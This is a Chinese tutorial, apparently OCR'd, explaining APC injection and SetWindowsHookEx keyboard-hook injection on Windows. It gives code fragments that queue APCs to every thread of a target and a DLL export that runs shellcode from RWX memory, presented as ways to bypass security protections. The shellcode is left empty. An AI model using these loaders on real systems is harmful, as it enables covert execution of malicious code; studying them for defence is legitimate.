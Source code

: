 ### apc 注入

#### 介绍

APC（Asynchronous Procedure Call）注入是一种基于 Windows 操作系统的高级漏洞利用技术，通常用于绕过安全防护措施，执行恶意代码。其原理如下：

1.  APC 注册：在目标进程中创建一个用户模式线程，并将其关联到一个合法的可执行函数或 API 回调函数。
    
2.  注入：攻击者将恶意代码加载到目标进程的虚拟地址空间中，通常使用远程线程注入、DLL 注入等方法。
    
3.  触发 APC：攻击者在目标进程的上下文中，使用 QueueUserAPC 函数将用户模式线程与恶意代码关联，将其添加到被攻击者的执行队列中。
    
4.  执行：当目标进程执行到特定的同步点时，即进入了 ALERTABLE 状态（如进入等待状态、等待用户输入等），执行队列中的用户模式线程得到执行并执行恶意代码。
    

APC 注入利用了 Windows 操作系统的异步过程调用机制，通过向进程中注入线程，并在指定时机触发线程执行，从而实现执行恶意代码的目的。由于 APC 是在目标进程的上下文中执行，所以可以绕过一些安全防护措施，使恶意代码不易被检测和阻止。

需要注意的是，APC 注入是一种高级的攻击技术，需要深入了解操作系统和漏洞利用原理才能正确实施。在合法场景下使用或研究 APC 注入，请确保符合法律规定，并遵循合规的安全测试流程。

#### 具体实现代码

既然是注入每一个线程，自然要有一个循环，循环每一个线程：

```plain
for (DWORD threadId : threadIds) {
        threadHandle = OpenThread(THREAD_ALL_ACCESS, TRUE, threadId);
        QueueUserAPC((PAPCFUNC)apcRoutine, threadHandle, NULL);
        Sleep(1000 * 2);
    }
```

其他的代码和别的加载方式并没太大差别。当然还有 apc 注入 earlybird 版本，建议自行研究了。

### HOOK 键盘 SetWindowHookEx 代码注入

​ 这个就稍微有点难度了，但仔细研究并没多难。Windows 允许程序使用`SetWindowHookEx`安装钩子来监控各种系统事件，如鼠标点击和键盘按键。

1.  一个载荷
2.  创建一个恶意程序
3.  解析地址，挂钩
4.  键盘输入内容，加载恶意载荷。

#### 代码

```plain
HMODULE library = LoadLibraryA("Dll1.dll");
    HOOKPROC hookProc = (HOOKPROC)GetProcAddress(library, "spotlessExport");

    HHOOK hook = SetWindowsHookEx(WH_KEYBOARD, hookProc, library, 0);
    Sleep(10 * 1000);
    UnhookWindowsHookEx(hook);
```

而在 dll 里：

```plain
extern "C" __declspec(dllexport) int spotlessExport() {
    unsigned char shellcode[] = "";

    void* exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, shellcode, sizeof shellcode);
    ((void(*)())exec)();
```
